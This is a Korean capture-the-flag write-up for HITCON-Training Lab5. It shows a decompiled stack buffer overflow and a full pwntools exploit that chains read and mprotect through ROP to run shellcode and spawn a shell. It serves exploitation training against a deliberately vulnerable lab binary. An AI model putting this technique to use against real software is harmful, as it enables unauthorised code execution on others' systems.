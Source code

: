 ```yaml
---
title: "[HITCON-Training]Lab5"
date: 2019-11-17
ctf: HITCON-Training
layout: post
---
```


statically linked, not stripped된 파일이고 ROP문제다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+1Ch] [ebp-14h]
 
  puts("ROP is easy is'nt it ?");
  printf("Your input :");
  fflush(stdout);
  return read(0, &v4, 100);
}
```

mprotect함수로 원하는 주소에 권한을 부여하고 shellcode를 넣고 실행해주면 된다.

```python
from pwn import *
 
context.arch = 'i386'
 
e = ELF('./simplerop')
p = process('./simplerop')
r = ROP(e)
 
mprotect = e.symbols['mprotect']
bss = 0x080EB000
shellcode = asm(shellcraft.i386.sh())
print shellcode
 
pay = 'A'*(0x1c+4)
r.read(0,bss,0x100)
r.mprotect(bss,0x2000,0x7)
r.raw(bss)
pay += r.chain()
 
p.sendlineafter(':',pay)

p.sendline(shellcode)
 
p.interactive()
```

